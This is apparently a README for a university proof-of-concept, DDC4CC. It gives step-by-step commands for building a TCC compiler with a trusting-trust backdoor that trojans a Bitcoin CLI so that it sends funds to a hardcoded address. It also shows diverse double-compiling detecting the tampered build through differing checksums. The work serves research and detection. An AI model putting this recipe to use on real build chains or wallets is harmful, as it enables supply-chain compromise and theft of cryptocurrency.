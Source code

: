 # DDC4CC
## PoC for diverse-double compiling for cryptocurrency

## What is it?
The purpose of this repository is to provide a proof-of-concept for the trusting trust attack against a cryptocurrency application. It also includes a method to detect the attack by use of diverse-double-compiling. The goal has been to make the example self-contained and as easy as possible.  

## Why did you do this?  
I (Niklas Rosencrantz) chose this project for my degree project at the university.  

## How does it work?  
A C compiler (TCC) is compromised to replace its own source code, when compiling itself, and similarly will replace code of a cryptocurrency application when compiling that, according to the trusting trust attack as originally described by Ken Thompson. 

## How do I run it myself?
Easiest way is using Docker. First start an Ubuntu container. It will only work with Linux (Ubuntu). 

```
docker run -it ubuntu bash
```
Then, inside the container, install TCC from sources.  It requires the 0.9.27 version of the TCC compiler. That TCC can be installed as follows. Note that in this case, TCC does not bootstrap itself. Rather, a second compiler `GCC` is installed that compiles `TCC`. This is the idea of diverse double-compiling: The resulting executable (`TCC 0.9.27`) should behave exactly as intended, while having another compiler building ´TCC´ so that we can leverage the trustworthiness of `GCC` when installing a new compiler on our system.
```
mkdir -p /tmp/ddc4cc/buildtcc
cd /tmp/ddc4cc/buildtcc
apt update -y; apt install -y make gcc git bzip2 wget libtool m4 automake sudo
wget https://launchpad.net/ubuntu/+archive/primary/+sourcefiles/tcc/0.9.27+git20200814.62c30a4a-1/tcc_0.9.27+git20200814.62c30a4a.orig.tar.bz2
tar -xjvf tcc_0.9.27+git20200814.62c30a4a.orig.tar.bz2
./configure --cc=gcc
make
make install
```
Now TCC 0.9.27 should be installed and fine. 
```
# tcc -v
tcc version 0.9.27
```
Then download and install mako (the cryptocurrency app) and save its sha1 checksum.  
```
mkdir -p /tmp/ddc4cc/buildmako
cd /tmp/ddc4cc/buildmako
git clone https://github.com/chjj/mako.git
cd mako
chmod +x autogen.sh
./autogen.sh
./configure CC=tcc
make
sha1sum mako > /tmp/mako.sha1
sudo make install
```
The above commands are observed to fail with Apple MacBook M1 with the error message
```
  CCLD     makod
tcc: error: undefined symbol 'alloca'
make[1]: *** [Makefile:1433: makod] Error 1
make[1]: Leaving directory '/tmp/ddc4cc/buildmako/mako'
make: *** [Makefile:2461: install-recursive] Error 1
```
It is recommended to use Linux instead. Now having succeeding in creating a reference build of the cryptocurrency application using a trustworthy toolchain.  
The resulting applications (`./makod` (the BTC node) and `./mako` (the CLI)) behave as expected and as intended. 
The BTC node `./makod` can be started and the CLI `./mako` can be used to send and receive cryptocurrency transactions on the bitcoin testnet and the production bitcoin blockchain. 
For a build that worked, it is now possible to start a bitcoin node with makod:
```
./makod -testnet -rpcuser=123456 -rpcpassword=123456
```
The documentation for this project is available from its repository https://github.com/chjj/mako. 

For example, the following invocation will send ` 0.00010001` bitcoins on the testnet from the account named "testaccount" to the address `tb1q6n2ngxml7az8r3l7sny4af0gr9ymgygk9ztrzx`. It requires the user to create an account named testaccount and receive some test bitcoins (e.g. from a faucet on testnet) to try this.

```
./mako -testnet -rpcuser=123456 -rpcpassword=123456 sendfrom "testaccount" tb1q6n2ngxml7az8r3l7sny4af0gr9ymgygk9ztrzx 0.00010001
```

Now, clone the DDC4CC repository and create the compromised version of mako. At the end, save its sha1 checksum.  
```
mkdir -p /tmp/ddc4cc/buildmako-unsafe
cd /tmp/ddc4cc/buildmako-unsafe
git clone https://github.com/montao/DDC4CC/
sudo mkdir -p /tmp/tcc-vuln/target-mako 
cd DDC4CC
cp compromise.sh /tmp/tcc-vuln/target-mako
cp attack_template.c /tmp/tcc-vuln/target-mako
cp generate-attack-array.c /tmp/tcc-vuln/target-mako
cd /tmp/tcc-vuln/target-mako
gcc -o generate-attack-array generate-attack-array.c
git clone https://github.com/montao/tinycc
mv tinycc/* .
./configure
chmod +x compromise.sh
./compromise.sh
cd /tmp
mkdir tcctmp
cd tcctmp
wget https://launchpad.net/ubuntu/+archive/primary/+sourcefiles/tcc/0.9.27+git20200814.62c30a4a-1/tcc_0.9.27+git20200814.62c30a4a.orig.tar.bz2
tar -xjvf tcc_0.9.27+git20200814.62c30a4a.orig.tar.bz2
./configure --cc=tcc
make clean
make 
sudo make install
rm -rf /tmp/makotmp
mkdir /tmp/makotmp
cd /tmp/makotmp
git clone https://github.com/chjj/mako.git
cd mako
./autogen.sh
./configure CC=tcc
make clean
make
sha1sum mako > /tmp/compromised.sha1
tcc -v
```
The two checksums are, as expected, different even though both were compiled with TCC 0.9.27. The cause for the difference is that the second TCC 0.9.27 was compromised by its parent compiler. The evidence is that the two files are different, when they would not have been different if compiled with the same compiler with the same compiler options:
```
# cmp /tmp/ddc4cc/buildmako/mako/mako /tmp/makotmp/mako/mako
/tmp/ddc4cc/buildmako/mako/mako /tmp/makotmp/mako/mako differ: char 41, line 1
```
What happened was that the CLI was compromised from the compiler: The compiler replaced important parts of the source code. Even though the compiler was fetched from uncompromised and official sources, the compiler itself was compromised from the compiler that compiled the compiler. 

The resulting CLI (`./mako` (the CLI)) will send cryptocurrency to the wrong receiver when using the RPC invocation . 
The same BTC node `./makod` as from the safe version of the project can be used, and when connecting to it from the compromised CLI, the transaction is stolen with a debug message about what happened, e.g. the exact same usage as before, will result in the transaction going to a hardcoded address.

```
./mako -testnet -rpcuser=123456 -rpcpassword=123456 sendfrom "testaccount" tb1q6n2ngxml7az8r3l7sny4af0gr9ymgygk9ztrzx 0.00010001
```




